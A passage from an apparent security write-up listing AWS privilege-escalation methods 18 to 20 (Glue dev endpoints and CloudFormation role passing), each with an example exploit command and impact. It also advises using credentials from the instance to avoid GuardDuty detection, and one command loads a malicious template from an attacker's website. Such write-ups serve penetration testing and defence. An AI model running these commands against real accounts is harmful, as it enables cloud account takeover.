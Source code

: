 **Description:** An attacker with the iam:PassRole and glue:CreateDevEndpoint permissions could create a new AWS Glue development endpoint and pass an existing service role to it. They then could SSH into the instance and use the AWS CLI to have access of the permissions the role has access to.

An example command to exploit this method might look like this:

> _aws glue create-dev-endpoint –endpoint-name my\_dev\_endpoint –role-arn arn\_of\_glue\_service\_role –public-key file://path/to/my/public/ssh/key.pub_

Now the attacker would just need to SSH into the development endpoint to access the roles credentials. Even though it is not specifically noted in the GuardDuty documentation, like method number 2 (Creating an EC2 instance with an existing instance profile), it would be a bad idea to exfiltrate the credentials from the Glue Instance. Instead, the AWS API should be accessed directly from the new instance.

**Potential Impact:** This would give an attacker access to the privileges associated with any Glue service role that exists in the account, which could range from no privilege escalation to full administrator access to the account.

#### 19. Updating an existing Glue Dev Endpoint

**Description:** An attacker with the glue:UpdateDevEndpoint permission would be able to update the associated SSH public key of an existing Glue development endpoint, to then SSH into it and have access to the permissions the attached role has access to.

An example command to exploit this method might look like this:

> _aws glue –endpoint-name target\_endpoint –public-key file://path/to/my/public/ssh/key.pub_

Now the attacker would just need to SSH into the development endpoint to access the roles credentials. Like method number 14, even though it is not specifically noted in the GuardDuty documentation, it would be a bad idea to exfiltrate the credentials from the Glue Instance. Instead, the AWS API should be accessed directly from the new instance.

**Potential Impact:** This would give an attacker access to the privileges associated with the role attached to the specific Glue development endpoint, which could range from no privilege escalation to full administrator access to the account.

#### 20. Passing a role to CloudFormation

**Description:** An attacker with the iam:PassRole and cloudformation:CreateStack permissions would be able to escalate privileges by creating a CloudFormation template that will perform actions and create resources using the permissions of the role that was passed when creating a CloudFormation stack.

An example command to exploit this method might look like this:

> _aws cloudformation create-stack –stack-name my\_stack –template-url http://my-website.com/my-malicious-template.template –role-arn arn\_of\_cloudformation\_service\_role_

Where the template located at the attacker’s website includes directions to perform malicious actions, such as creating an administrator user and then using those credentials to escalate their own access.

**Potential Impact:** This would give an attacker access to the privileges associated with the role that was passed when creating the CloudFormation stack, which could range from no privilege escalation to full administrator access to the account.
